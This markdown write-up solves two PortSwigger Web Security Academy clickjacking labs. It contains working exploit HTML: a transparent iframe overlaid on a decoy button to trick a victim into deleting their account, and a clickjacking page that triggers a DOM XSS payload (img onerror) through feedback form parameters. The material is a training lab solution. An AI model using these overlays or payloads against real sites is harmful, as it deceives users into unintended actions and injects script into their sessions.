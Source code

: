 # Clickjacking (UI redressing)

Get details at [here](https://portswigger.net/web-security/clickjacking)

---

[Lab 1](https://portswigger.net/web-security/clickjacking/lab-basic-csrf-protected)

Description of this lab: login functionality and a delete account button that is protected by a CSRF token. A user will click on elements that display the word "click" on a decoy website.

We will exploit at my-account page, use this script for exploit server body:

```html
    <html>
        <head>
        <style>
        #target_website {
            position:relative;
            width: 512px;
            height: 512px;
            opacity:0.00001;
            z-index:2;
            }
        #decoy_btn {
            position:absolute;
            top:490px;
            width:148px;
            height: 32px;
            left: 25px;
            z-index:1;
            }
        </style>
    </head>
    <body>
        <button id="decoy_btn">
        click me
        </button>
        <iframe id="target_website" src="https://0a9e00b803f9b564c403699e003600a9.web-security-academy.net/my-account">
        </iframe>
    </body>
    </html>
```

Clicking store then deliver to victim button, and solved the lab.


[Lab 4](https://portswigger.net/web-security/clickjacking/lab-exploiting-to-trigger-dom-based-xss)

Description of this lab: XSS vulnerability that is triggered by a click. Construct a clickjacking attack that fools the user into clicking the "Click me" button to call the print() function.

We can find the vulnerability in feedback form where users can type anything. Use this script in exploit server and do it like previous lab, then solved the lab.

```html
    <html>
    <head>
        <style>
        #target_website {
            position:relative;
            width: 512px;
            height: 1024px;
            opacity:0.10001;
            z-index:2;
            }
        #decoy_btn {
            position:absolute;
            top:798px;
            width:158px;
            height: 32px;
            left: 27px;
            z-index:1;
            }
        </style>
    </head>
    <body>
        <button id="decoy_btn">
        click
        </button>
        <iframe id="target_website" src="https://0aeb002903c405aac09ef522001600ab.web-security-academy.net/feedback?name=%3Cimg%20src=x%20onerror=%22print()%22/%3E&email=target@website.com&subject=blabla&message=blabla">
        </iframe>
    </body>
    </html>
```

